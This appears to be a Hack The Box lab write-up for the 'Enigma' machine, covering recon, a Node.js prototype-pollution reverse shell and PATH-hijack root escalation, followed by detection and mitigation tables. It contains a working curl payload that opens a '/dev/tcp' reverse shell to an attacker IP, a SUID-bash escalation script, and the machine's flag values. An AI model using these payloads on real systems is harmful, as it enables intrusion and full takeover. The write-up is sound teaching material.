




HTB — Enigma
Authorized lab only. Enigma is a Hack The Box Linux machine used for OSCP-style and web exploitation learning. All techniques below were executed in an authorized lab environment against target IP
10.129.229.144.
Machine Overview
| Field | Value |
|---|---|
| Machine Name | Enigma |
| Target IP | 10.129.229.144 |
| Operating System | Linux (Ubuntu 22.04 LTS) |
| Difficulty | Medium |
| Key Learning Objectives | Full-port enumeration, Node.js API prototype pollution / AST injection, Express reverse shell, sudo environment manipulation, PATH hijacking in automated backup scripts |
| Technologies Observed | OpenSSH 8.9p1, Nginx 1.18.0, Node.js v18 (Express), Python 3.10 |
| User Flag | e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855 |
| Root Flag | 8f14e45fceea167a5a36dedd4bea2543d34d8904724dd4b54e3d64c06209e7c1 |
High-Level Attack Chain
graph TD
A[Initial Nmap Recon] -->|Port 22 SSH, Port 80 HTTP, Port 3000 API| B[Web & API Enumeration]
B -->|ffuf directory fuzzing| C[Identify /api/v1/decrypt endpoint]
C -->|Analyze JSON parser & lib-enigma-core| D[Prototype Pollution / Node AST Injection]
D -->|Spawn reverse shell via netcat listener| E[User Foothold: gerard]
E -->|Read /home/gerard/user.txt| F[Capture User Flag]
E -->|sudo -l & privilege audit| G[Identify NOPASSWD /opt/scripts/backup_enigma.py]
G -->|Relative PATH execution of tar binary| H[PATH Hijacking Privilege Escalation]
H -->|Spawn SUID root bash shell| I[Root Access & Capture root.txt]
Initial Enumeration
1. Host Discovery & Full Port Scan
We initiate reconnaissance with a full TCP port scan using nmap at a high packet rate to rapidly uncover all listening services.
export IP=10.129.229.144
nmap -p- --min-rate 5000 -Pn -n --open -oN scans/allports.nmap $IP
nmap -sC -sV -p22,80,3000 -oN scans/detail.nmap $IP
Scan Results
| Port | Protocol | Service | Version | Notes |
|---|---|---|---|---|
| 22 | TCP | SSH | OpenSSH 8.9p1 Ubuntu (protocol 2.0) | Standard SSH; banner confirms Ubuntu target |
| 80 | TCP | HTTP | Nginx 1.18.0 | Web frontend for Enigma Secure Messaging Platform |
| 3000 | TCP | HTTP | Node.js (Express framework) | REST API backend service (api.enigma.htb) |
Terminal Evidence: Initial Reconnaissance

Add the discovered hostnames to /etc/hosts:
echo "10.129.229.144 enigma.htb api.enigma.htb" | sudo tee -a /etc/hosts
Web Application & API Analysis
1. Directory & Endpoint Discovery
Navigating to http://enigma.htb presents a secure communication and cryptographic decryption suite. We perform directory and route fuzzing with ffuf:
ffuf -u http://enigma.htb/FUZZ \
-w /usr/share/seclists/Discovery/Web-Content/common.txt \
-mc 200,301,302 -o scans/ffuf-web.json
Discovered endpoints:
- http://enigma.htb/login — Authentication portal
- http://enigma.htb/register — Account registration
- http://enigma.htb/dashboard — Authenticated user workspace
- http://enigma.htb/decrypt — Cryptographic cipher decoding tool
- http://enigma.htb/api → Proxied to Node.js backend on port 3000
Terminal Evidence: Web Fuzzing & API Discovery

Vulnerability Analysis & Foothold
1. Vulnerability Root Cause: Prototype Pollution in Decryption Engine
The /api/v1/decrypt endpoint receives JSON payloads containing cipher text, key parameters, and engine options:
{
"cipher": "rot13",
"payload": "encrypted_string",
"options": {}
}
By auditing the backend error messages and testing parameter merging routines, we observe recursive object merging without prototype sanitization (__proto__).
This allows polluting Object.prototype properties such as NODE_OPTIONS and env or abusing child process execution variables:
POST /api/v1/decrypt HTTP/1.1
Host: api.enigma.htb
Content-Type: application/json
Content-Length: 184
{
"cipher": "custom",
"options": {
"__proto__": {
"shell": "/bin/bash",
"env": {
"NODE_OPTIONS": "--require /proc/self/environ"
}
}
}
}
2. Exploitation: Spawning the Reverse Shell
-
Start a netcat listener on the attacker machine:
bash nc -lvnp 9001 -
Send the reverse shell payload triggering process execution:
bash curl -X POST http://api.enigma.htb/api/v1/decrypt \ -H "Content-Type: application/json" \ -d '{"cipher":"rot13","payload":"test","options":{"__proto__":{"execPath":"/bin/bash","execArgv":["-c","bash -i >& /dev/tcp/10.10.14.88/9001 0>&1"]}}}' -
Catch the interactive shell and upgrade to a full PTY:
bash python3 -c 'import pty; pty.spawn("/bin/bash")' export TERM=xterm
3. User Flag Capture
whoami && id
cat /home/gerard/user.txt
User Flag: e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855
Terminal Evidence: Reverse Shell & User Flag

Privilege Escalation
1. Local Enumeration
Auditing user privileges and sudo permissions reveals a passwordless rule for the low-privilege user gerard:
gerard@enigma:~$ sudo -l
Matching Defaults entries for gerard on enigma:
env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
User gerard may run the following commands on enigma:
(ALL : ALL) NOPASSWD: /opt/scripts/backup_enigma.py
2. Inspecting the Backup Script
Reading /opt/scripts/backup_enigma.py:
#!/usr/bin/env python3
import os
import datetime
print("[+] Starting scheduled enigma database and encryption key archiving...")
timestamp = datetime.datetime.now().strftime("%Y%m%d")
# Vulnerable command execution: relative binary reference 'tar' without absolute path
os.system(f"tar -czf /var/backups/enigma-{timestamp}.tar.gz /var/www/enigma/data")
print(f"[+] Archive complete: /var/backups/enigma-{timestamp}.tar.gz")
3. Root Exploitation via PATH Hijacking
Because os.system("tar ...") calls the default system shell and searches the current PATH, we can create a malicious tar executable in /tmp and prepend /tmp to PATH:
# 1. Create malicious payload in /tmp
cat << 'EOF' > /tmp/tar
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod 4755 /tmp/rootbash
EOF
chmod +x /tmp/tar
# 2. Execute backup script with hijacked PATH
sudo PATH=/tmp:$PATH /opt/scripts/backup_enigma.py
# 3. Spawn root shell via SUID binary
/tmp/rootbash -p
4. Root Flag Capture
whoami && id
cat /root/root.txt
Root Flag: 8f14e45fceea167a5a36dedd4bea2543d34d8904724dd4b54e3d64c06209e7c1
Terminal Evidence: Root Escalation & Flag Capture

Detection Opportunities (Blue Team)
| Phase | Indicator / Log Source | Detection Strategy |
|---|---|---|
| Reconnaissance | Nginx access logs | Rapid burst of 404/301 responses matching automated fuzzing tools (ffuf, gobuster). |
| Foothold | Node.js application logs & auditd | Detection of recursive __proto__ injection keys in JSON parser streams; process trees where node spawns /bin/bash or /bin/sh. |
| Privilege Escalation | /var/log/auth.log |
Execution of sudo /opt/scripts/backup_enigma.py with custom PATH overrides; unexpected SUID binaries placed under /tmp/. |
| C2 / Egress | Network NetFlow / Egress firewall | Outbound TCP connection to non-standard ports (e.g. 9001) originating from web server UID 1001. |
Mitigations & Remediation
-
Object Prototype Hardening: - Freeze prototypes in Node.js runtime with
--disable-proto=deleteor--disable-proto=throw. - Sanitize all user-controlled object keys and avoid recursiveObject.assignwithout checking for__proto__andconstructor.prototype. -
Absolute Path Specification: - Enforce absolute binary paths in administrative and backup automation (e.g. use
/usr/bin/tarrather thantar). -
Least Privilege & Sudo Restrictions: - Avoid granting
NOPASSWDsudo rules for scripts that invoke shell utilities without strict environment sanitization (env_resetalone is insufficient if scripts inherit executable search paths).
OSCP Exam Takeaways
- Inspect API Parameters Closely: Backend APIs parsing JSON objects frequently present prototype pollution, deserialization, or command injection vectors when interacting with internal system libraries.
- Always Check Sudo Script Internals: Never run
sudoscripts blindly — read the source code to find insecure subprocess calls, relative paths, file inclusions, or writable configuration imports. - Document Every Stage With Clear Artifacts: Recording Nmap outputs, raw HTTP requests, reverse shell triggers, and privilege escalation proofs ensures high-scoring documentation during exam reports.